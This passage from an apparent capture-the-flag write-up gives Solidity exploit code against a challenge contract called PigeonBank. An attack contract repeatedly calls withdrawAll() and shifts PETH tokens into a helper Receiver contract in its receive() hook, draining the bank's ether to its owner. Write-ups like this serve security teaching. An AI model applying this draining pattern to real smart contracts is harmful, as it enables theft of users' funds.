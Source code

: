```solidity
        //Now we abuse the bug 250 times to get all the money out of the contract.
        while(address(peth).balance > 0) {
            //Call the withdraw function
            pigeonBank.withdrawAll();

            //Call the giveMyMoneysBack function to get the tokens out of the receiver contract
            receiver.giveMyMoneysBack();
        }

        //Send all the profits to the owner
        owner.call{value: address(this).balance}("");
    }

    receive() external payable {
        //Move the tokens to our receiver contract to not burn them
        peth.transfer(address(receiver), 10 ether);
    }
}
```

I also had to write a receiver contract that returns my tokens:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "./PETH.sol";
import "./PigeonBank.sol";
import "./Receiver.sol";

contract Receiver
{
    PigeonBank public pigeonBank;
    PETH public peth;
    address public attacker;

    constructor(address _pigeonBankAddress) {
        pigeonBank = PigeonBank(payable(_pigeonBankAddress));
        peth = PETH(pigeonBank.peth());
        attacker = msg.sender;
    }

    function giveMyMoneysBack() public {
        peth.transfer(attacker, peth.balanceOf(address(this)));
    }
}
```

After running the contract and calling the attack() function you can retrieve the flag.